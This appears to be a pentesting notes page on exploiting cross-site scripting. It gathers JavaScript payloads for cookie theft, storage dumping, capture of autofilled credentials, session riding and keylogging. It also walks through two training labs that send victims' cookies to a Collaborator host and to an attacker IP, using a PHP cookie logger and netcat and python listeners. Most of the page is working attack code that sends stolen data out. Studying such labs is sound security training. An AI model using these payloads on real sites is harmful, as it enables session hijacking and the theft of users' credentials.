


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Offensive Techniques


[XSS Filter Evasion Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html) (OWASP)


## Payloads

### Fetch API

```javascript
fetch('http://localhost/endpoint’)
```

### Building Requests

```javascript
XMLHTTP Request:

let xhr = new XMLHttpRequest()

xhr.open('GET','http://localhost/endpoint',true)

xhr.send('email=update@email.com’)
```

### Stealing Cookies

```javascript


fetch("http://localhost?c="+document.cookie);
```

### Accessing Local & Session Storage

```javascript
let localStorageData = JSON.stringify(localStorage)

let sessionStorageData = JSON.stringify(sessionStorage)
```

### Autofilled Creds

```javascript
// create the input elements

let usernameField = document.createElement("input")

usernameField.type = "text"

usernameField.name = "username"

usernameField.id = "username"

let passwordField = document.createElement("input")

passwordField.type = "password"

passwordField.name = "password"

passwordField.id = "password"

// append the elements to the body of the page

document.body.appendChild(usernameField)

document.body.appendChild(passwordField)

// exfiltrate as needed (we need to wait for the fields to be filled before exfiltrating the information)

setTimeout(function() {

 console.log("Username:", document.getElementById("username").value)

 console.log("Password:", document.getElementById("password").value)

}, 1000);
```

### Session Riding

```javascript
let xhr = new XMLHttpRequest();

xhr.open('POST','http://localhost/updateprofile',true);

xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');

xhr.send('email=updated@email.com’);
```

### Keylogging

```javascript
document.onkeypress = function(e) {

 get = window.event ? event : e

 key = get.keyCode ? get.keyCode : get.charCode

 key = String.fromCharCode(key)

 console.log(key)

}
```

## Examples

> The example below is based on PortSwigger's [_Exploiting cross-site scripting to steal cookies_](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies) lab.

The comment section on the web application is vulnerable to [Stored XSS](stored.md) (Figure 1).

```javascript
<script>alert(1)</script>
```

<figure><figcaption><p>Figure 1: Confirming a Stored XSS vulnerability.</p></figcaption></figure>

Now that we know about the Stored XSS flaw, we can use Burp's Collaborator and create a payload to steal another user's cookies (Figure 2).

```javascript
<script>
fetch(
'https://nwn712w9l1ca8s437qcetzwtdkjb72vr.oastify.com',
    {
        method:'POST',
        mode: 'no-cors',
        body: document.cookie
    }
);
</script>
```

<figure><figcaption><p>Figure 2: Creating a malicious payload &#x26; stealing another user's cookies.</p></figcaption></figure>

We can then use the cookies via the browser tools and impersonate the user (Figure 3).

<figure><figcaption><p>Figure 3: Using the stolen cookies to impersonate another user.</p></figcaption></figure>

### Session Hijacking

> _The example below is based on HTB's_ [_Web Enumeration & Exploitation_](https://academy.hackthebox.com/module/163/section/1544) _module._

We have found a **ticket form** on `support.local.htb` (Figure 1).

<div align="center">

<figure><figcaption><p>Figure 1: A form that can we can raise ticket to the support department.</p></figcaption></figure>

</div>

We can first **test** if it is vulnerable to XSS (Figure 2).



```javascript
 "><script src=http://10.10.15.131:1337/test</script>
```



```bash
nc -lvnp 1337
```



<div align="center">

<figure><figcaption><p>Figure 2: Testing XSS.</p></figcaption></figure>

</div>

Next, we will **steal the cookie** of the person who will process our ticket (Figure 3).

1. Create a script (`index.php`) that will expand the stolen cookie.
2. Create another script (`script.js`) that will steal the user's cookie, request `index.php` and pass it as a value to `index.php`.&#x20;
3. Pass a payload that will request `script.js`.



```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```



```javascript
new Image().src='http://10.10.15.131/index.php?c='+document.cookie
```



```bash
python3 -m http.server 80
```



```javascript
"><script src=http://10.10.15.131/script.js></script>
```



<figure><figcaption><p>Figure 3: Snatching the support staff's cookie.</p></figcaption></figure>
